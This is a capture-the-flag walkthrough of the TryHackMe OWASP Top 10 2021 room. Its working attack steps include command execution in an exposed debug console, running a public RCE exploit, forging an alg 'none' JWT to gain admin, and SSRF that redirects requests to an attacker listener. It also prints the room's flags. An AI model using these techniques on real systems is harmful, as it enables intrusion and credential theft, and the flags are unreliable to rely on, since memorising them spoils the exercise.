










# [Task 11] 4. Insecure Design
## Reset Password
Choose the question of `What's your favourite colour?` <br>
```
green
```
## New Password
 <br>
```
VXdN29LygflFsJ
```
## Log In with New Password
 <br>

## Flag
Move `flag.txt` to the `private` folder, and open the file to get the flag. <br>
 <br>

# [Task 12] 5. Security Misconfiguration
Firstly, Navigate to `<YOUR_MACHINE_IP>:86/console`. <br>
Then, execute the code: <br>
```python3
import os; print(os.popen("ls -l").read())
```
 <br>

To read `app.py`, execute this code: <br>
```python3
import os; print(os.popen("cat app.py").read())
```
 <br>

# [Task 15] Vulnerable and Outdated Components - Lab

Go to [Online Book Store 1.0 - Unauthenticated Remote Code Execution ](https://www.exploit-db.com/exploits/47887?source=post_page-----73d5248fc8e4--------------------------------), and download `47887.py`. <br>

 <br>

Execute `47887.py`. <br>
 <br>

## Get the Flag
 <br>

```
THM{But_1ts_n0t_my_f4ult!}
```

# [Task 20] Data Integrity Failures
## JWT Cookie Value
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ
```

### Header
```
# Input Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9

# Output String
{"typ":"JWT","alg":"HS256"}
```

### Payload
```
# Input Base64
eyJ1c2VybmFtZSI6Imd1ZXN0IiwiZXhwIjoxNzIzODQwOTI0fQ

# Output String
{"username":"guest","exp":1723840924}
```

## Admin Header
```
# Input String
{"typ":"JWT","alg":"none"}

# Output Base64
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=
```

## Admin Payload

```
# Input String
{"username":"admin","exp":1723840924}

# Output Base64
eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==
```

## Whole JWT
Don't forget the dot (`.`) following by the payload. I failed to get the flag because of the missing dot. <br>
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzIzODQwOTI0fQ==.
```

# [Task 22] 10. Server-Side Request Forgery (SSRF)


## Q1. Explore the website. What is the only host allowed to access the admin area?
 <br>

```
localhost
```
##  Q2. Check the "Download Resume" button. Where does the server parameter point to?
 <br>
```
secure-file-storage.com
```
## Q3. Using SSRF, make the application send the request to your AttackBox instead of the secure file storage. Are there any API keys in the intercepted request?
 <br>
 <br>

```
# What I found fomr the button
http://10.10.10.48:8087/download?server=secure-file-storage.com:8087&id=75482342

# Edited URL
http://192.168.3.130:8087/download?server=http://<YOUR_THM_IP>:8000&id=75482342

```
Remember to listen to `8000` <br>
 <br>
```bash
nc -nvlp 8000
```
### Answer
```
THM{Hello_Im_just_an_API_key}
```

## Q4. Going the Extra Mile: There's a way to use SSRF to gain access to the site's admin area. Can you find it? 

**Note:** You won't need this flag to progress in the room. You are expected to do some research in order to achieve your goal. <br>

```
http://<YOUR_THM_IP>:8087/download?server=http://localhost:8087/admin%23&id=75482342
```
 <br>
 <br>

---

# Reference
- [TryHackMe OWASP Top 10–2021 Walkthrough](https://medium.com/@corybantic/tryhackme-owasp-top-10-2021-writeup-159ccfadb4d7) by CoryBantic NSP Security, 2023.


